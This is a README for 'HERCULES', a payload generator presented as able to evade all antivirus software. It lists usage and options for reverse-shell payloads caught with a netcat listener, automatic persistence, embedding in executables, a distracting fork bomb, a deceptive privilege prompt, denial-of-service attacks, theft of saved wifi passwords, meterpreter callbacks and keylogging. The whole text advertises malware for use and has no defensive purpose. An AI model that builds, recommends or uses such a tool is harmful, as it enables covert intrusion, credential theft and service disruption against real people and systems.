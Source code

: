 # HERCULES
HERCULES is a special payload generator that can bypass all antivirus software.

Use it with netcat...

Example : nc -l -p 1234


# USAGE


                  __  ____________  ________  ____    ___________
                 / / / / ____/ __ \/ ____/ / / / /   / ____/ ___/
                / /_/ / __/ / /_/ / /   / / / / /   / __/  \__ \ 
               / __  / /___/ _, _/ /___/ /_/ / /___/ /___ ___/ / 
              /_/ /_/_____/_/ |_|\____/\____/_____/_____//____/  
                                                   


Usage : ./HERCULES (LocalIp) (LocalPort) (Options)


Options : 

      -p                 Payload to use. ( Windows / Linux )

      -a                 The architecture to use. ( x86, x64 )
      
      -l                 Specify linking type for compiler. ( static, dynamic )

      --persistence      Enable outo persistence option for continious acces.

      --embed="file.exe" Embed the selected payload with selected exe file.




# PAYLOAD OPTIONS

                  __  ____________  ________  ____    ___________
                 / / / / ____/ __ \/ ____/ / / / /   / ____/ ___/
                / /_/ / __/ / /_/ / /   / / / / /   / __/  \__ \ 
               / __  / /___/ _, _/ /___/ /_/ / /___/ /___ ___/ / 
              /_/ /_/_____/_/ |_|\____/\____/_____/_____//____/  
                                                   

- ~PERSSISTENCE                     Installs a persistence module

- ~DISTRACT                         Executes a fork bomb bat file for distraction   

- ~PLEASE  "Command"                Asks users comfirmation for higher privilidge operations

- ~DOS -A "www.targetsite.com"      Starts a denial of service atack

- ~WIFI-LIST 						            Dumps all wifi history data with passwords

- ~METERPRETER -A "127.0.0.1:8888"  Creates a reverse https meterpreter connection to metasploit

# NOTE

- Dynamic linking makes payload size smaller !

# AV AWARENESS

http://NoDistribute.com/result/ZWHKvaAJcCpnOGbgNq

# NOTE

- Using persistence and keylogger may attract some Anti Virus software... 

